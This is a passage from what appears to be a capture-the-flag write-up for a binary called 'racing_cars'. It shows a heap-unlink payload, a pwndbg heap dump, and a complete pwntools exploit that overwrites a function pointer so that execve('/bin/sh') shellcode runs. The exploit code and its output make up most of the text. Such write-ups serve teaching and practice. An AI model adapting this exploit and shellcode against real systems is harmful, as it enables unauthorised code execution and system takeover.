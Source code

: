 For that we need to construct our payload:
```
pay = 'b'*0x20
pay += p32(function_ptr - 0x28)
pay += p32(array)
pay += p32(0x65)
```
Below is the GDB-dump of the heap at this point!

```
pwndbg> x/20x 0x8ad11a0-0x8
0x8ad1198:	0x00000000	0x00000031	0x00000000	0x61616161
0x8ad11a8:	0x61616161	0x61616161	0x61616161	0x0000000a
0x8ad11b8:	0x00000000	0x00000000	0x00000000	0x08ad11d0
0x8ad11c8:	0x00000000	0x00000031	0x00000001	0x62626262
0x8ad11d8:	0x62626262	0x62626262	0x62626262	0x62626262
pwndbg> 
0x8ad11e8:	0x62626262	0x62626262	0x62626262	0x0804c01c
0x8ad11f8:	0x0804c080	0x00000065	0x0000000a	0x63636363
0x8ad1208:	0x63636363	0x63636363	0x63636363	0x0000000a
0x8ad1218:	0x00000000	0x00000000	0x00000000	0x00000000
0x8ad1228:	0x08ad11d0	0x00021dd9	0x00000000	0x00000000
```

The unlinking takes place as desired, the `next` and `prev` pointers in the structure get overwritten. In this way, the `function_ptr` also gets overwritten to point to the global address of `array` where the shellcode is stotred.

## Exploit

```
def shellcode():
	shell = 'xor ecx, ecx\n'
	shell += 'xor edx, edx\n'
	shell += 'push eax\n'
	shell += 'push 0x68732f\n'
	shell += 'push 0x6e69622f\n'
	shell += 'mov ebx, esp\n'
	shell += 'push 0xb\n'
	shell += 'pop eax\n'
	shell += 'int 0x80\n'

	return asm(shell)
	
from pwn import *

p = process('./racing_cars')
exe = ELF('./racing_cars')
gdb.attach(p, gdbscript='b*0x0804971c\n')
#p = remote('65.2.136.80', 32645)
p.sendlineafter('Choose your car: ', shellcode())

p.sendlineafter('Name: ', 'a'*0x10)
p.sendlineafter('Occupation: ', 'c'*0x10)

function_ptr = 0x804c044
arr = 0x804c080

pay = 'b'*0x20
pay += p32(function_ptr - 0x28)
pay += p32(arr)
pay += p32(0x65)
p.sendlineafter('Address: ', pay)

p.interactive()
```